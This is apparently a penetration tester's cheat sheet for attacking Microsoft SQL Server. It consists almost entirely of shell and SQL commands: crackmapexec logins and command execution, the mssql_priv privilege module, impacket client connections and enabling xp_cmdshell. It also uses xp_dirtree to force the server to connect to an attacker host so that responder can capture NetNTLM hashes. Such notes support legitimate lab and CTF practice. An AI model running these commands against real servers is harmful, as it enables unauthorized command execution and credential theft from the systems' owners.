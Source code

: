**MSSQL:**
---
```shell
crackmapexec mssql $TARGET_IP -u $USER -p $PASSWORD
```

```shell
crackmapexec mssql --local-auth $TARGET_IP -u $USER -p $PASSWORD -L
```

Try to execute command on server:
```shell
crackmapexec mssql --local-auth $TARGET_IP -u $USER -p $PASSWORD -x 'ping $ATTACKER'
```
and on attacker box:
```shell
sudo tcpdump -i tun0 icmp -n
```

Try to start mssql_priv:

```shell
crackmapexec mssql --local-auth $TARGET_IP -u $USER -p $PASSWORD -M mssql_priv
```

One client is mssqlclient.py:

```shell
mssqlclient.py $USER:$PASSWORD@$DOMAIN
```

Or use impacket to open console:

```shell
impacket-mssqlclient $TARGET_DOMAIN/$TARGET_USER:$TARGET_PASSWORD@$TARGET_NAME
```

Try:

```mssql
enable_xp_cmdshell
```

in MSSQL server try, start responder on attacker box:
```sql
xp_dirtree \\$ATTACKER_IP\fake\share
```

**List databases:**
---
```sql
SELECT name, database_id, create_date FROM sys.databases;
```

Show current DB name:
```sql
SELECT db_name();
```
**List tables in selected DB:**
---
#mssql 
```sql
SELECT * FROM SYSOBJECTS WHERE xtype = 'U';
```

Leak NetNTLM hashes
---
#hash #ntlm #netntlm #responder
Start responder or another hash grabber to get user and hash:

```bash
sudo responder.py -I tun0
```

and trick the MSSQL server to connect to the "share":

```sql
exec master.dbo.xp_dirtree '//$LOCAL_IP/non/existing'
```

